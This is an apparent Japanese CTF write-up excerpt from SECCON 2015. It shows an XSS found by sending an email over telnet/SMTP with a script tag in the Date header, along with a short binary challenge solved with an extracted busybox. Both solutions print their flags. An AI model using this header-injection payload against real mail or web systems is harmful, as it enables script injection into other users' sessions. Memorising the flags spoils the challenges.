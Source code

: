 `Date` の `2015-12-06` に取り消し線が。XSS 発見です。

```
> telnet tsuribori.test 25
HELO localhost
MAIL FROM: localhost@localhost
RCPT TO: keigo.yamazaki@tsuribori.test
DATA
From: localhost@localhost
Date: <script>alert(navigator.userAgent)</script>
Subject: subject

body
.
quit
```

User-Agent がアラートで出ました。

`flag: SECCON{TsuriboriWebBros/2015.12.17620}`

## Exec dmesg (Binary 300)
`dmesg` を実行しようとしたところ、`applet not found` と表示されました。  
`ls -l /bin/dmesg` してみると、`/bin/dmesg -> busybox` となっています。

[http://tinycorelinux.net/6.x/x86/release/](http://tinycorelinux.net/6.x/x86/release/) から適当に `iso` をダウンロード、`busybox` を取り出して持ってきます。

`./busybox dmesg | grep SECCON` するとフラッグが表示されました。

`flag: SECCON{elf32-i386}`
